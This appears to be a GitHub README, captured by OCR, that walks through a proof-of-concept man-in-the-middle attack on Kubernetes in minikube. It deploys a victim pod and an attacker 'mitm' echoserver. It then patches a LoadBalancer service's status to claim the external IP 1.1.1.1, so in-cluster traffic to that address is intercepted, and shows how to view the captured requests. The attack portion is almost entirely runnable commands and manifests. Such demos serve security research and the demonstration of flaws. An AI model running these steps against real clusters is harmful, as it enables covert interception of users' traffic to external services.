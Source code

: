 Create namespace app
```
kubectl create ns app
```
Deploy "victim-client" pod to simulate an in-cluster HTTP client with curl

```
kubectl apply -f - <<'EOF'
apiVersion: v1
kind: Pod
metadata:
  name: victim-client
  namespace: app
spec:
  containers:
    - name: curl
      image: curlimages/curl:7.67.0
      command: [ "/bin/sleep", "3600" ]
EOF
```

Check that we have access to our external victim (here 1.1.1.1)

```
# from a node
minikube ssh
curl -sv http://1.1.1.1
curl -sv https://1.1.1.1 -k
# from the pod
kubectl exec -n app victim-client -- curl -sv http://1.1.1.1
kubectl exec -n app victim-client -- curl -sv https://1.1.1.1 -k

```

Deploy "mitm pod"

```
kubectl apply -f - <<'EOF'
apiVersion: v1
kind: Namespace
metadata:
  name: tcc
---
apiVersion: apps/v1
kind: Deployment
metadata:
  name: echoserver
  namespace: tcc
spec:
  replicas: 1
  selector:
    matchLabels:
      app: echoserver
  template:
    metadata:
      labels:
        app: echoserver
    spec:
      containers:
      - image: gcr.io/google_containers/echoserver:1.10
        name: echoserver
        ports:
        - name: http
          containerPort: 8080
        - name: https
          containerPort: 8443
EOF
```

external traffic interception using service type LoadBalancer

```
kubectl apply -f - <<'EOF'
apiVersion: v1
kind: Service
metadata:
  name: mitm-external-lb
  namespace: tcc
spec:
  ports:
  - name: http
    port: 80
    targetPort: 8080
  - name: https
    port: 443
    targetPort: 8443
  selector:
    app: echoserver
  type: LoadBalancer
EOF
kubectl proxy --port=8080 &
sleep 3
curl -k -v -XPATCH  -H "Accept: application/json" -H "Content-Type: application/merge-patch+json" 'http://127.0.0.1:8080/api/v1/namespaces/tcc/services/mitm-external-lb/status' -d '{"status":{"loadBalancer":{"ingress":[{"ip":"1.1.1.1"}]}}}'
pkill kubectl
```

After the patch call, LoadBalancer IP is properly configured (ie not pending)

```
kubectl get -n tcc svc/mitm-external-lb
```

Test if the MITM works
```
# node -> ip
minikube ssh
curl -sv http://1.1.1.1
curl -sv https://1.1.1.1 -k
# pod -> ip
kubectl exec -n app victim-client -- curl -sv http://1.1.1.1
kubectl exec -n app victim-client -- curl -sv https://1.1.1.1 -k
```

view traffic 

```
stern -n tcc echoserver
```